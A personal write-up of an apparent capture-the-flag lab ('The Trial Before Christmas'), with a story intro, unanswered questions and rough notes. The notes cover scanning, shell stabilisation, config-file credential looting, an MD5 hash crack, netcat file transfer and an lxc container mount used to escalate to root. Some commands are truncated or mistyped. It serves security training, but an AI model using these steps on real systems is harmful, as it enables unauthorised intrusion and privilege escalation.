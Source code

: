 #Day-23
....................................................................
====================================================================
#Day 23	: The Trial Before Christmas - Story:

It was the night before Christmas and The Best Festival Company could finally rest. All of the toys had been made and the company had recovered from attack after attack. Everything was in Santa's hands now, leaving the elves to do little more than wish him a safe journey ahead. Elf McEager sat at his terminal staring absentmindedly at light snow that had begun to fall. Just as he had drifted off to sleep Elf McEager was jolted to attention as a small parcel appeared just at the edge of his view. 

The present was wrapped in a deep blue velvet that appeared to shimmer in and out of the firelight, not unlike a blinking terminal prompt. Carefully, Elf McEager reached for the azure ribbon, untying it slowly so as to not damage it. The velvet slowly fell away, revealing a small NUC computer with a letter on top. Unfolding the letter, Elf McEager read it aloud:


"Elf McEager - your boundless effort to save Christmas this year has not gone unnoticed. I wanted to reward you with a special present, however, there's a catch. Elf McSkidy and I have seen your skills advance and we feel it would only be appropriate to give you a present after one last challenge. Inside this package, you'll have also found a computer. Plug this into the network and hack into it. Best of luck and Merry Christmas - Santa"


Without delay, Elf McEager connected the NUC appropriately and watched it whir to life. A small screen nearby the power button blinked and then displayed the IP address assigned to the device. Next to the IP, a small symbol appeared. McEager quietly wondered to himself what it could mean as he logged into his terminal, ready to start his final challenge. 
====================================================================
....................................................................
#Steps I aquire to gain answers:
----------------------------------
1st lets scan the machine with nmap:
#nmap -A -sC -sV -O -oN intial 10.10.184.10

we found the 2 posts open.

lets do the directory enumeration:
#gobuster dir -w 

python3 -c 'import pty; pty.spawn("/bin/bash")'

import TERM=xterm
(ctrl+z)
stty raw -echo; fg

$dbaddr = "localhost";
$dbuser = "tron";
$dbpass = "IFightForTheUsers";
$database = "tron";

Database name: tron
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | flynn    | edc621628f6d19a13a00fd683f5e3ff7 |
+----+----------+----------------------------------+

edc621628f6d19a13a00fd683f5e3ff7	md5	: @computer@


#To transfer the file using python server:
python -m SimpleHTTPServer

and wget on the other maching using the ip and the port given.


#And to transfer the files using netcat:

target machine		: nc -lp 4444 > fileName

attacker machine	: nc -w 3 ip port < fileName


lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

...............................................................
====================================================================
....................................................................

#1	Scan the machine. What ports are open?
	Ans: 

#2	What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.
	Ans: 

#3	What is the name of the hidden php page?
	Ans: 

#4	What is the name of the hidden directory where file uploads are saved?
	Ans: 

#5	Bypass the filters. Upload and execute a reverse shell. 
	Ans: No Answer needed.

#6	What is the value of the web.txt flag?
	Ans: 

#7	Upgrade and stabilize your shell. 
	Ans: No answer needed.

#8	Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password
	Ans: 

#9	Access the database and discover the encrypted credentials. What is the name of the database you find these in?
	Ans: 

#10	Crack the password. What is it?
	Ans: 

#11	Use su to login to the newly discovered user by exploiting password reuse. 
	Ans: 

#12	What is the value of the user.txt flag?
	Ans: 

#13	Check the user's groups. Which group can be leveraged to escalate privileges? 
	Ans: 

#14	Abuse this group to escalate privileges to root.
	Ans: No Answer Needed.

#15	What is the value of the root.txt flag?
	Ans: 

....................................................................
====================================================================